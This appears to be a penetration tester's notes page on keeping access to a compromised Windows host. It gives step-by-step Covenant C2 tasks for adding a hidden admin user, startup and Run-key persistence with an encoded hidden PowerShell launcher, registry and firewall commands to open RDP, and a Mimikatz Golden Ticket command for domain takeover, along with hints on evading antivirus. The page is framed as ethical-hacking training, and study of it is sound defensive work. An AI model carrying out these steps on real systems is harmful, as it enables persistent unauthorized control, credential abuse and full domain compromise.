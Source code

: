 # Persistence

Here we assume we have a shell with administrative privileges on the target

## Create a new user

### Covenant

- Select Interact in your grunt
- Use `shellcmd net users username password /add` (Note: for a real context engagement we need to make a safe password and a recognizable username such as the name of the company we work for)
- we can check that the user has been successfully added using `shell net users`
- Now we need to add our user to the administrators group using `shell net localgroup administrators username /add`

## Startup Persistence

### Covenant

- This method will ibject a payload in the startup tasks
- In your grunt go to the tab Task in the GruntTask list choose `PersistStartup`
- You should see this in the Payload input: `powershell -Sta -Nop -Window Hidden -EncodedCommand <blah>` replace the blah with a powershell encoded launcher and click on Task
- If we restart the target machine and login again there we should get our shell back

***Note: Windows Defender is really efficient in detecting this so you might have to try different things for AV evasion***

## Autorun Persistence

### Covenant

- Go to launcher, select `Binary Launcher` Generate one and Download it
- Go back to your high integrity grunt, go to the task tab
- In the GruntTack Select `PersistAutorun`, choose a directory in where to upload the binary
- Go to the interact tab type Upload put the Directory in the file path and select the bin file you download previously
- You can check if the bin was successfuly added to the Registry using this cmd: `GetRegistryKey HCKU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`
- Once you restart you should have a shell back

***Note: Windows Defender is really efficient in detecting this so you might have to try different things for AV evasion***

## Persistence with RDP

- With an initial shell on a machine with covenant
- Enable Remote Desktop in our target: in the interact tab we can type this `powershell reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f; Enable-NetFirewallRule -DisplayGroup "Remote Desktop"`
- We could then connect to the target using rdp and disabling anti-virus this way
- Disable Remote Desktop Commection: `powershell reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f; Disable-NetFirewallRule -DisplayGroup "Remote Desktop"`

## Golden Ticket Persistence

- Here we will powershell along with powerview.ps1 and invoke-mimikatz.ps1
- `. .\powerview.ps1`
-  `Get-DomainSID` this will give us the domain SID, we will need to copy it
-  `. .\invoke-mimikatz.ps1`
-  `Invoke-Mimikatz -Command '"kerberos::golden /user:administrator /domain:domain.local /sid:PUT-THE-SID-HERE /krbtgt:PUT-HERE-TICKET-OF-DC-KRBTGT /ptt"'`
-  We should be a domain administrator and have control of the domain controller and we can promote a compromised user to domain admins

## Resources

{% embed url="https://academy.tcm-sec.com/p/movement-pivoting-and-persistence-for-pentesters-and-ethical-hackers" %} TCM security Academy -  Movement pivoting and persistence for pentesters and ethical hacker {% endembed %}
